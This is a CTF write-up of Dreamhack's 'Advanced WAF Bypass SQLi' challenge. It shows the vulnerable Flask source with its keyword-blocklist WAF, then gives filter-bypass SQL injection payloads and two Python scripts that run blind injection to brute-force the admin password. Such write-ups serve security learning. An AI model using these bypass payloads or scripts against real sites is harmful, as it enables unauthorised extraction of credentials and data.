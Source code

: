 ```yaml
---
title: 'Dreamhack Advanced WAF Bypass SQLI'
description: 'ctf writeup'
pubDate: 'apr 25 2024'
heroImage: '/mickey.jpeg'
pinned: false
---
```


> Challenge Name : Advanced WAF Bypass SQLi

- The challenge source code is given below

```
import os
from flask import Flask, request
from flask_mysqldb import MySQL

app = Flask(__name__)
app.config['MYSQL_HOST'] = os.environ.get('MYSQL_HOST', 'localhost')
app.config['MYSQL_USER'] = os.environ.get('MYSQL_USER', 'user')
app.config['MYSQL_PASSWORD'] = os.environ.get('MYSQL_PASSWORD', 'pass')
app.config['MYSQL_DB'] = os.environ.get('MYSQL_DB', 'users')
mysql = MySQL(app)

template ='''
<pre style="font-size:200%">SELECT * FROM user WHERE uid='{uid}';</pre><hr/>
<pre>{result}</pre><hr/>
<form>
    <input tyupe='text' name='uid' placeholder='uid'>
    <input type='submit' value='submit'>
</form>
'''

keywords = ['union', 'select', 'from', 'and', 'or', 'admin', ' ', '*', '/', 
            '\n', '\r', '\t', '\x0b', '\x0c', '-', '+']
def check_WAF(data):
    for keyword in keywords:
        if keyword in data.lower():
            return True

    return False


@app.route('/', methods=['POST', 'GET'])
def index():
    uid = request.args.get('uid')
    if uid:
        if check_WAF(uid):
            return 'your request has been blocked by WAF.'
        cur = mysql.connection.cursor()
        cur.execute(f"SELECT * FROM user WHERE uid='{uid}';")
        result = cur.fetchone()
        if result:
            return template.format(uid=uid, result=result[1])
        else:
            return template.format(uid=uid, result='')

    else:
        return template


if __name__ == '__main__':
    app.run(host='0.0.0.0')
```

- This challenge is advanced version of the previous challenge <code>`WAF bypass SQLI`</code>,The user input here is lower casted before checking into the check_WAF function.

- At first i tried basic concatenation [OR Operator] and it worked with <code>`'||1=1#` `'||1=0#`</code>

![Description](https://raw.githubusercontent.com/kabilan1290/astro-blog/master/public/work.png)

• Then i tried with <code>`'||length(upw)={length}#`</code> , i got success in calculating the length, like if the length is valid,the server will respond the uid but it seems if founded the upw of abcde which is a different user.

• Then started struggling with the idea of how to supply the admin uid, meanwhile i understood the exploitation part will require blind injection.

• The idea came in to use the [AND operator] && <code>`'||(uid='guest'&&length(upw)=5)#`</code>

• It worked and the responded with the uid guest.

![Description](https://raw.githubusercontent.com/kabilan1290/astro-blog/master/public/length.png)

• Now we can use concat function to supply admin value in uid <code>`concat('adm','in)`</code>, We also know that the flag value is stored in admin upw and starts with 'D' since the flag format is 'DH{.*}'.

• I supplied the payload <code>`'||(uid=concat('adm','in')&&substr(upw,1,1)='D')#` and yesss! we recieved the response uid as admin which means we succceded!

• Now our idea is to  find the length of upw and below is the script i created that will help us to find the length!



```
import requests
import urllib.parse

host = "http://host3.dreamhack.games:18985"


length = 0

while True:
	payload = f"'||(uid=concat('adm','in')&&length(upw)={length})#"
	encoded_payload = urllib.parse.quote(payload)

	print(f"Trying length {length}")
	data = requests.get(f"{host}/?uid={encoded_payload}")
	if "admin" in data.text:
		break
	else:
		length=length+1

print(f"Admin upw length is {length}")
```
![Description](https://raw.githubusercontent.com/kabilan1290/astro-blog/master/public/length_script.png)

• The length of upw is 44 and now we can bruteforce each character and find the flag.

```
import requests
import urllib.parse

host = "http://host3.dreamhack.games:18985"

charSet = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~'

length=44
pos=0
flag=''
for i in range(0,45):
	pos= pos+1
	for j in charSet:
		payload = f"'||(uid=concat('adm','in')&&substr(upw,{i},1)='{j}')#"
		encoded_payload = urllib.parse.quote(payload)
		data = requests.get(f"{host}/?uid={encoded_payload}")
		if "admin" in data.text:
			print(f"found character {j} in position {i}")
			flag = flag+j
			break

print(f"Flag : {flag}")
```

![Description](https://raw.githubusercontent.com/kabilan1290/astro-blog/master/public/adv_flag.png)
